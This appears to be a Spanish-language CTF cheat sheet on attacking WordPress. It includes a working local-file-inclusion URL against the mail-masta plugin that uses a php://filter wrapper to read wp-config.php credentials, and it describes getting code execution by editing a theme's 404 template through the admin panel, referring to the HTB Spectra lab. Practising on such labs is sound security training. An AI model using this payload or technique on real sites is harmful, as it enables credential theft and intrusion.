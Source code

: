 PRACTICAR
- [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## LFI WORDPRESS

si encontramos un LFI en algun plugin, podemos leer el archivo `wp-config.php` en el que hay contraseñas de DB, SSH , FTP o Wordpress.

puede estar en:

- directorio raiz (/wordpress o despues de la IP)
- en /wp-content

```bash
http://allinone.thm/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

## PANEL RCE

Es posible ganar acceso al sistema sin la ayuda de metasploit, aprovechandonos de la plantilla 404 de wordpress.

Dentro del dashboard de Wordpress nos vamos a appearance > themes editor:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/1.PNG)

Y buscamos la plantilla 404 en files themes y podemos colocar el codigo en php que queremos que se nos interprete cuando busq	uemos una ruta que nos exista y nos salga esa plantilla:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/2.PNG)

En caso de algun mensaje de error puedes probar con la misma plantilla 404 pero de otro tema:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/3.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/4.PNG)

En este caso voy a usar otro porque nos salio el mensaje de error, usare el twenty nineteen y ahi no sale un mensaje de error:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/5.PNG)

Entonces si vamos a la siguiente ruta nos mostrara nuestro comando que colocamos:
wp-contet
```
spectra.htb/main/wp-content/themes/<nuestro tema editado>/404.php
```

En nuestro caso el tema es twenty nineteen:

```
spectra.htb/main/wp-content/themes/twentynineteen/404.php
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/6.PNG)
